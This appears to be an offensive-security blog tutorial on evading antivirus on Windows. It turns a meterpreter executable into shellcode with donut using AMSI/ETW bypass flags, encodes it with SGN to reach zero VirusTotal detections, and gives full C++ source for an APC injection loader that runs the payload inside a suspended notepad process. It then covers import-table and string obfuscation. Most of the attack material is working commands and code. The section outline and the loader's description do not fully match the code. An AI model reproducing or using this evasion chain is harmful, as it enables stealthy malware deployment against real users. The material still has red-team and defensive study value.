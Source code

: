 ## Table of Contents

- [**Outline**](#section-0)
- [**EXEtoShellCode**](#section-1)
- [**Shellcode Encoding**](#section-2)
- [**ShellCode Loader**](#section-3)
- [**Payload Obfuscation**](#section-4)
- [**IAT Obfuscation**](#section-5)
- [**Conclusion**](#section-6)




## Outline  {#section-0}


![](/assets/AV/APC.png)
## Creating MSI Malware {#section-0}

## Executable to Shell Code
We will convert meterpreter EXE to shellcode using donut.


https://github.com/TheWover/donut

This Donut command loads piggy.exe into memory with:
1) no entropy obfuscation (-e)
2) uses AMSI/WLDP/ETW bypass with a fail-safe option to continue if bypass fails (-b)
3) compresses the file using the aPLib engine (-z 2), and employs a decoy module at 
level 5 (-j 5) for added obfuscation and evasion.

```bash
./donut -i /home/kali/donut/piggy.exe -e 1 -b 3 -z -j 5
```

![](/assets/AV/donutImage.png)  

However, as expected the shellcode.bin when uploaded to virus total  has a large detection rate

![](/assets/AV/loaderVirus.png)  

## Polymorphic Shellcode Encoding (Shiginakatai)
While there are many shell code encryption and encoding methods such as XOR, AES, UUID, IPV4 obfuscation, some libraries and decryption functions are flagged by antivirus solutions such as AES decryption routine.
Here we will use a simple yet effective encoding  to obfuscate our payload, SGN encoding. “SGN is a polymorphic binary encoder for offensive security purposes such as generating statically undetectable binary payloads”.  It is the upgraded version of the famous shikata_ga_nai.rb used in metasploit.


https://github.com/EgeBalci/sgn
Now we will conduct shellcode obfuscation. -i is used for the input file (the meterpreter rat shellcode) and -o is the output. -a is for the architecture and -c is the number of encoding 
![](/assets/AV/sgn.png)  


```bash
sgn -i '/home/kali/donut/loader.bin' -o /home/kali/donut/loaderEncrypted.bin -a 64 -c 8 --verbose
```

The advantage of SGN is that during run time it will un-encode itself thereby the testers do not have to implement the un-encoding function. Testers need to simply load the obfuscated payload bin to their code.

Uploading the shellcode we get a 0 detection rate.
![](/assets/AV/zero.png)  


The advantage of SGN is that during run time it will un-encode itself thereby the testers do not have to implement the un-encoding function. Testers need to simply load the obfuscated payload bin to their code.

## Creating APC Shellcode Loader
Creating a Shellcode Loader

Now that we have our encoded shellcode, we need to create a PE, exe file to launch this shellcode using c++.
VirtualAlloc: Allocates memory for the payload, typically using MEM_COMMIT and PAGE_READWRITE to allow writing to the allocated memory.
RtlMoveMemory: Copies the payload (malicious code) from the file or buffer into the newly allocated memory region.
VirtualProtect: Changes the protection of the allocated memory from PAGE_READWRITE to PAGE_EXECUTE_READ to allow the payload to execute.
CreateThread: Starts a new thread, executing the payload in memory. This is the method used to run the injected code.
WaitForSingleObject: Pauses the current thread until the thread running the payload finishes execution, ensuring the payload completes.
QueueUserAPC: This function queues an Asynchronous Procedure Call (APC) to a specific thread. If used with a thread in an alertable state (such as one created with SleepEx or WaitForSingleObjectEx), the payload will be executed when the thread enters that state. This technique is commonly used to inject code into a thread in a less obvious manner, bypassing some common defenses.

```bash
#include <windows.h>
#include <windows.h>
#include <stdio.h>

// Function to read a binary file
unsigned char* readBinaryFile(const char* fileName, SIZE_T* size) {
    FILE* file = fopen(fileName, "rb");
    if (!file) {
        printf("Could not open file %s\n", fileName);
        return NULL;
    }

    fseek(file, 0, SEEK_END);
    *size = ftell(file);
    fseek(file, 0, SEEK_SET);

    unsigned char* buffer = (unsigned char*)malloc(*size);
    if (!buffer) {
        printf("Memory allocation failed\n");
        fclose(file);
        return NULL;
    }

    fread(buffer, 1, *size, file);
    fclose(file);
    return buffer;
}

int main() {
    // Read shellcode from the binary file (e.g., loaderEncrypted.bin)
    const char* fileName = "loaderEncrypted.bin";
    SIZE_T shellcodeSize;
    unsigned char* shellcode = readBinaryFile(fileName, &shellcodeSize);
    
    if (!shellcode) {
        printf("Failed to read the binary file.\n");
        return -1;
    }

    // Create a suspended Notepad process
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi = { 0 };
    if (!CreateProcessA("C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
        printf("Failed to create process\n");
        free(shellcode);
        return -1;
    }

    // Allocate memory in the target process
    LPVOID bufferAddr = VirtualAllocEx(pi.hProcess, NULL, shellcodeSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!bufferAddr) {
        printf("VirtualAllocEx failed\n");
        free(shellcode);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
        return -1;
    }

    // Write the shellcode into the allocated memory
    if (!WriteProcessMemory(pi.hProcess, bufferAddr, shellcode, shellcodeSize, NULL)) {
        printf("WriteProcessMemory failed\n");
        free(shellcode);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
        return -1;
    }

    // Queue the APC for the shellcode to be executed
    QueueUserAPC((PAPCFUNC)bufferAddr, pi.hThread, NULL);

    // Resume the suspended thread to execute the shellcode
    ResumeThread(pi.hThread);

    // Cleanup
    free(shellcode);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    return 0;
}


```
## IAT Obfuscation

One thing to note is that using the above WIN32 API directly, such as VirtualAllocEX, QueueUserAPC and etc will be likely flagged as suspicious. We can verify this by checking the Import Address Table by  utilizing a tool called PE Studio

 ![](/assets/AV/PE.png)  
Dynamic Function Resolution: GetProcAddress is used to dynamically resolve the addresses of the required functions 

```bash

HMODULE hKernel32 = GetModuleHandle("kernel32.dll");

LPVOID (WINAPI * pVirtualAllocEx)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);
pVirtualAllocEx = (LPVOID (WINAPI *)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD)) GetProcAddress(hKernel32, "VirtualAllocEx");

```

If we do not want to do this manually, we can use built in importers.
```bash
https://github.com/JustasMasiulis/lazy_importer
```
Download the lazy_importer.hpp and save it in a folder called include. 
Simply add LI_FN() to the function.

We can further implement a custom GetProcAddress to hide its WINAPI Function call but this time we leave it out. 


## String Obfuscation
Let's take the following code snippet for example, where we create a notepad process for future shell code injection, 
the string c:\\windows\\system32\notepad.exe is identified in the executable. We can check this using strings.
```bash
strings.exe -n 8 implant.exe | findstr /i "C:\\windows"
```
 ![](/assets/AV/string.png)  
